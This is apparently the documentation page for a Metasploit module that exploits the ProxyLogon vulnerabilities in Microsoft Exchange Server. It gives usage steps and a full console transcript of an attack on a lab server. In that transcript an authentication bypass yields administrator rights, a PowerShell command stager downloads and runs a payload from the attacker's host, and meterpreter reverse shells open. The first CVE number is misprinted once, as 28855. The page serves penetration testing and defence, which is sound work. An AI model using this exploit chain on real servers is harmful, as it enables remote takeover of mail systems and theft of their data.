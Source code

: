 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

CVE-2021-27065 is a post-auth arbitrary-file-write vulnerability to get code execution and the second part
of ProxyLogon attack chain.

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication, impersonating as the admin (CVE-2021-26855) and write arbitrary file (CVE-2021-27065) to
get the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft
Exchange Server.

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxylogon_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization.

### METHOD

HTTP Method to use for the check (only). Default: POST

## Advanced Options

### MapiClientApp

This is MAPI client version sent in the request.

### MaxEntries

Max counter loop to wait for OAB Virtual Dir reset. Default: 30

## Scenarios

```
msf6 exploit(windows/http/exchange_proxylogon_rce) > options 

Module options (exploit/windows/http/exchange_proxylogon_rce):

   Name     Current Setting           Required  Description
   ----     ---------------           --------  -----------
   EMAIL    gaston.lagaffe@pwned.lab  yes       A known email address for this organization
   METHOD   POST                      yes       HTTP Method to use for the check (Accepted: GET, POST)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.20.2.110              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    443                       yes       The target port (TCP)
   SRVHOST  0.0.0.0                   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080                      yes       The local port to listen on.
   SSL      true                      no        Negotiate SSL/TLS for outgoing connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                            no        The URI to use for this exploit (default is random)
   VHOST                              no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.20.2.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Meterpreter


msf6 exploit(windows/http/exchange_proxylogon_rce) > run

[*] Started reverse TCP handler on 172.20.2.12:4444 
[*] Using auxiliary/scanner/http/exchange_proxylogon as check
[+] https://172.20.2.110:443 - The target is vulnerable to CVE-2021-26855.
[+] Obtained HTTP response code 500 for https://172.20.2.110/ecp/R.js.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-26855
[*]  * internal server name (EXCH2K16)
[*] https://172.20.2.110:443 - Sending autodiscover request
[*]  * Server: d8a7cc8c-7180-4b80-b53e-57c3449bcd4e@pwned.lab
[*]  * LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=9b9d8cf634f44ec4a0eda5c1c7c311da-Gasto
[*] https://172.20.2.110:443 - Sending mapi request
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-1141 (gaston.lagaffe@pwned.lab)
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-500  (elevated to administrator)
[*] https://172.20.2.110:443 - Sending ProxyLogon request
[*]  * ASP.NET_SessionId: b687af0e-62ff-44ac-9aa2-01baa8d829be
[*]  * msExchEcpCanary: NBsILiOonEiWIPqyLjq9a5FOVt676NgI-frGOkd4RaBETlKR0Tc5nJEg_E_blC9_ZgNlX8LHNB4.
[*]  * OAB id: 482b1c13-3b3f-451b-8635-613aee2d256a (OAB (Default Web Site))
[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-27065
[*]  * prepare the payload on the remote target
[*]  * write the payload on the remote target
[!]  * wail a lot (0)
[!]  * wail a lot (1)
[+]  * yeeting windows/x64/meterpreter/reverse_tcp payload at 172.20.2.110:443
[*] Using URL: http://0.0.0.0:8080/l1Ij034H1
[*] Local IP: http://172.20.2.12:8080/l1Ij034H1
[*] Generated command stager: ["powershell.exe -c Invoke-WebRequest -OutFile %TEMP%\\WcoJdFYJ.exe http://172.20.2.12:8080/l1Ij034H1 & %TEMP%\\WcoJdFYJ.exe & del %TEMP%\\WcoJdFYJ.exe"]
[*] Client 172.20.2.110 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0) requested /l1Ij034H1
[*] Sending payload to 172.20.2.110 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0)
[*] Sending stage (200262 bytes) to 172.20.2.110
[*] Client 172.20.2.110 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0) requested /l1Ij034H1
[*] Sending payload to 172.20.2.110 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0)
[*] Meterpreter session 19 opened (172.20.2.12:4444 -> 172.20.2.110:30682) at 2021-03-15 00:41:44 +0400
[*] Sending stage (200262 bytes) to 172.20.2.110
[*] Meterpreter session 20 opened (172.20.2.12:4444 -> 172.20.2.110:30685) at 2021-03-15 00:41:44 +0400
[*] Server stopped.

meterpreter > 
```

## References

1. <https://proxylogon.com/>
2. <http://aka.ms/exchangevulns>
3. <https://www.praetorian.com/blog/reproducing-proxylogon-exploit>
4. <https://testbnull.medium.com/ph%C3%A2n-t%C3%ADch-l%E1%BB%97-h%E1%BB%95ng-proxylogon-mail-exchange-rce-s%E1%BB%B1-k%E1%BA%BFt-h%E1%BB%A3p-ho%C3%A0n-h%E1%BA%A3o-cve-2021-26855-37f4b6e06265>
